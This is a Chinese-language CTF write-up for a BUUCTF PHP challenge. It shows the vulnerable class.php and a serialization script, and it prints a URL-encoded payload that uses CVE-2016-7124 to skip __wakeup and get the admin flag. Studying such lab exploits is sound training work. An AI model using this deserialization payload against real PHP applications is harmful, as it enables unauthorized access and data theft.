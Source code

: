 ```yaml
---
{"dg-publish":true,"title":"BUU_[极客大挑战 2019]PHP1","dg-path":"安全/靶场/BUU_[极客大挑战 2019]PHP1.md","permalink":"/安全/靶场/BUU_[极客大挑战 2019]PHP1/","dgPassFrontmatter":true}
---
```


这一题的主要考点是**PHP反序列化**
但是这都不是重点
重点是**猫猫可爱捏**
![Pasted image 20241008160503.png](/img/user/picture/Pasted%20image%2020241008160503.png)

首先给了我们一个信息，那就是这个网站存在备份，我们下载一下备份
`www.zip`(用工具扫一下就能扫出来)


在`index.php`中有一段php代码：
![Pasted image 20241008161408.png](/img/user/picture/Pasted%20image%2020241008161408.png)
也就是GET接收`select` 变量，在对其进行反序列化

主体在`class.php`中，我们看一下：
```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

我们构建：
```php
<?php  
  
class Name{  
    private $username = 'admin';  
    private $password = '100';  
      
}  
  
$a=new Name();  
echo serialize($a);  
?>
```
![Pasted image 20241008163235.png](/img/user/picture/Pasted%20image%2020241008163235.png)
注意要将里面那个方框乱码替换为`%00`
也就是：
```txt
O:4:%22Name%22:2:{s:14:%22%00Name%00username%22;s:5:%22admin%22;s:14:%22%00Name%00password%22;s:3:%22100%22;}
```

现在的输出情况：
![Pasted image 20241008163435.png](/img/user/picture/Pasted%20image%2020241008163435.png)

这里的原因是因为在反序列化的时候，会调用`__wakeup()`函数

解决这个问题可以利用漏洞`CVE-2016-7124`

+ 漏洞编号：CVE-2016-7124
+ 影响版本：PHP 5<5.6.25; PHP 7<7.0.10
+ 漏洞危害：如存在__wakeup方法，调用unserilize()方法前则先调用__wakeup方法，但序列化字符串中表示对象属性个数的值大于真实属性个数时会跳过__wakeup执行


我们查看一下PHP版本，发现在影响版本里面
![Pasted image 20241008163740.png](/img/user/picture/Pasted%20image%2020241008163740.png)

我们只需要简单修改一下payload即可：
```txt
O:4:%22Name%22:3:{s:14:%22%00Name%00username%22;s:5:%22admin%22;s:14:%22%00Name%00password%22;s:3:%22100%22;}
```

flag就拿到了：
![Pasted image 20241008163841.png](/img/user/picture/Pasted%20image%2020241008163841.png)
